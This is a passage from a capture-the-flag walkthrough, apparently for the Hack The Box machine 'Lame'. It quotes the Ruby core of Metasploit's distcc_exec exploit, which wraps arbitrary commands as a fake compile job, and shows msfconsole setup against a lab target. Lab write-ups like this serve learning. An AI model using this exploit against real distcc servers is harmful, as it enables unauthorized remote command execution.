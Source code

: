 The meat of the exploit is simple. Here is a snippet. 

```ruby
def dist_cmd(*args)

		# Convince distccd that this is a compile
		args.concat(%w{# -c main.c -o main.o})

		# Set distcc 'magic fairy dust' and argument count
		res = "DIST00000001" + sprintf("ARGC%.8x", args.length)

		# Set the command arguments
		args.each do |arg|
			res << sprintf("ARGV%.8x%s", arg.length, arg)
		end
```

Basically just asking it to compile a shell. Okay okay. summplee.  

Let's try just poking at it using the Metasploit module.  

![distccExploit](/assets/img/Walkthroughs/Lame/distcc.png)


I had to set a payload for this. Setting the options were easy.  


```
msf5 > use exploit/unix/misc/distcc_exec
msf5 exploit(unix/misc/distcc_exec) > options

Module options (exploit/unix/misc/distcc_exec):

Name    Current Setting  Required  Description
----    ---------------  --------  -----------
RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT   3632             yes       The target port (TCP)

Exploit target:

Id  Name
--  ----
0   Automatic Target

msf5 exploit(unix/misc/distcc_exec) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf5 exploit(unix/misc/distcc_exec) > show targets

```